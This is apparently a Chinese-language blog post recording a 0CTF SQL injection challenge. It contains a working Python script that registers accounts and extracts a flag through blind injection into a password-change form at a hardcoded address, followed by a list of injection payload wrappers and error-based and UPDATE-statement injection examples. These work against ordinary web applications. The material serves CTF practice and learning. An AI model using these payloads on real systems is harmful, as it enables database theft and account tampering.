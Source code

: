 ```yaml
---
title: lilly
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
---
```


非常不错的爆破脚本

{% highlight python %}
import requests, random, string

# password='=(select  CASE WHEN length(flag)=26 THEN  1 ELSE 1 MATCH '(' END from flag)='
# password='=(select  CASE WHEN substr(flag, 1, 1)='1' THEN  1 ELSE 1 MATCH '(' END from flag)='
# charset = string.digits + "_" + string.letters + "{}"
#0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
# charset = [chr(i) for i in range(256)]
charset = string.printable

#SELECT CASE 3 WHEN 1 THEN 'one' WHEN 2 THEN 'two' ELSE 'more' END;
sql_template = "'=(select  CASE WHEN substr(flag, %d, 1)='%s' THEN  1 ELSE (1 match 1) END from flag)='"
s = requests.Session()

#finally we get the flag = '0CTF{R0t_?_S8rRy_1_doNt_N}'
flag=''

while 1:
	# gen creds
	creds = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(10))
	
	data = {'username': creds,'password':creds, 'email':creds}
	# register
	r = s.post("http://202.112.28.113:5000/register", data=data)
	if r.text.find("Now You can log in:") == -1:
		continue
		
	# login
	r = s.post("http://202.112.28.113:5000/login", data=data)
	if r.text.find("Modify password") == -1:
		continue
	
	# inject
	i = len(flag) + 1
	print i, 
	for c in charset:
		if c == '-' or c == '/':
			# blacklisted shit !
			continue
		
		data['password'] = sql_template % (i, c)
		r = s.post("http://202.112.28.113:5000/modify", data=data)

		if r.text.find("HAHAHA,YOUR PASSWORD HAS BEEN UPDATED") != -1:
			flag += c
			print repr(flag)
			break
{% endhighlight %}

经典文章：[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)

[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)

{% raw %}
<pre>
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'*  (payload)  *'
' or (payload) and '
" – (payload) – "
''=(payload)=''

准备测试数据：
Create database newdb;
use newdb;
CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
desc users;  查看表的结构
insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据

新建flag表：

CREATE TABLE flag(id int(3) NOT NULL AUTO_INCREMENT, flag varchar(64) NOT NULL,PRIMARY KEY (id));
insert into flag(id,flag) values(1,'0CTF{R0t_?_S8rRy_1_doNt_N}');
mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'

show databases;
use security;
show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| flag               |
| referers           |
| uagents            |
| users              |
+--------------------+
update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';
</pre>
{% endraw %}
